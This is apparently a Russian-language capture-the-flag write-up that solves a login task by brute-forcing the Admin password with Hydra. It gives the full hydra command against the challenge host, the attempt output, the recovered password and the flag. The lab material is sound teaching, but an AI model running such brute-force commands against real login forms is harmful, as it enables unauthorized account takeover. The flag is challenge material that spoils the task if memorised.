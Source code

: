 # Hydra

Каждый же знает, что **Hydra** это один из инструментов для брута?

Авторизуемся и смотрим, что было отправлено, к примеру, через f12.

![Task](img/view_task.png)

```sh
username=jayse&password=nejayse&submit=Login
```

Читаем заметку: *Admin is hiding something...*

и запускаем гидру, где перебираем пароли к юзеру *Admin*:

```sh
$ hydra -V -I -f -l Admin -P rockyou.txt -t 4 http-post-form://46.254.20.217:2003 -m "/:username=^USER^&password=^PASS^&submit=Login:Incorrect"
[DATA] attacking http-post-form://46.254.20.217:2003//:username=^USER^&password=^PASS^&submit=Login:Incorrect
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "password" - 4 of 14344398 [child 3] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "iloveyou" - 5 of 14344398 [child 2] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "princess" - 6 of 14344398 [child 0] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "1234567" - 7 of 14344398 [child 1] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "rockyou" - 8 of 14344398 [child 3] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "12345678" - 9 of 14344398 [child 0] (0/0)
[ATTEMPT] target 46.254.20.217 - login "Admin" - pass "abc123" - 10 of 14344398 [child 1] (0/0)
...
[2003][http-post-form] host: 46.254.20.217   login: Admin   password: shadow
[STATUS] attack finished for 46.254.20.217 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Логинимся, получаем флаг.

Флаг - *4hsl33p{hydr4_1s_t00l_r1ght?}*

